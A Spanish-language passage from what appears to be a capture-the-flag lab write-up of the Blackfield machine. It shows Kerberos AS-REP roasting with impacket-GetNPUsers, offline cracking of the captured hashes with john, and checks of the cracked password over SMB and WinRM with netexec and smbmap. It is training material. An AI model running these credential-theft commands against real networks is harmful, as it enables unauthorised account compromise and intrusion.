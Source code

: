 ### AS-REP Roast Attack (GetNPUsers)

Debido que disponemos de una lista potencial de usuarios, probaremos a realizar un **AS-REP Roast Attack** para intentar obtener un Ticket Granting Ticket (TGT) para luego crackearlo de manera offline.

```bash
impacket-GetNPUsers -no-pass -usersfile valid_users.txt BLACKFIELD.local/ 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/1701_vmware_8fx1J8tR3R.png" alt=""><figcaption></figcaption></figure>

### Cracking Hashes

De los TGT obtenidos procederemos a crackear los hashes con **john** para obtener la contraseña del usuario.

```bash
john --format=krb5asrep hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../../../.gitbook/assets/1702_vmware_NL4tlyFqi2.png" alt=""><figcaption></figcaption></figure>

Validaremos con **netexec** de autenticarnos al SMB y de comprobar si con estas credenciales podemos acceder al WinRM. Verificamos que las credenciales son válidas, pero no tenemos de permisos suficientes para acceder remotamente al equipo.

```bash
netexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'

netexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

<figure><img src="../../../../../.gitbook/assets/1703_vmware_lM9s1ARPxb.png" alt=""><figcaption></figcaption></figure>

Enumeraremos con este nuevo usuario los recursos compartidos del SMB para ver si disponemos de más acceso del que ya disponíamos con el usuario "guest".

```bash
smbmap -H 10.10.10.192 --no-banner -u support -p '#00^BlackKnight'
```
